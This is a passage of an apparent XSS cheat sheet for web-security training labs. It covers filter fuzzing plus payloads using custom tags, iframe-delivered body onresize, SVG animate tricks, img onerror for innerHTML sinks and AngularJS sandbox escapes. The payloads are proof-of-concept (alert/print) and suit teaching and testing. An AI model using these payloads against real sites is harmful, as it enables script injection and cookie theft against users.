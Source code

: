 If the app is blocking some common tags, you can inject custom ones. For example, you can use Intruder to fuzz and check which tags and event handlers are allowed:

- Example: \<FUZZ>, \<body FUZZ="test>

```html
<input2 onmouseover=alert(1)>TEST</input2>
<body onresize="print()">
```

You can also submit a payload to the victim using the exploit server by encoding the special characters:

```html
<script>
      location = 'https://your-lab-id.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>
```

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search="><body onresize=print()>" onload=this.style.width='100px'>
```

The first quotation mark that is in the payload and the angle brackets must be encoded:

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

IF the app allows you to render SVG tags, then the following payload can be attempted:

```html
<svg><animatetransform onbegin=alert(document.domain) attributeName=transform>
```

If reflected XSS is present and event handlers and href attributes are blocked, try:

```html
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```

IF user-controllable source is passed to the .innerHTML() sink, then you can use an image tag to execute JavaScript. The .innerHTML() property will not execute script tags:

```html
<img src=x onerror=alert(1)>
```

If the app is using AngularJS, try injecting the following payload to the input fields and see if the expression is getting processed:

- {{2+2}} = 4

```javascript
{{ this.constructor.constructor('alert("foo")')() }}
```

```javascript
{{$on.constructor('alert(1)')()}}
```
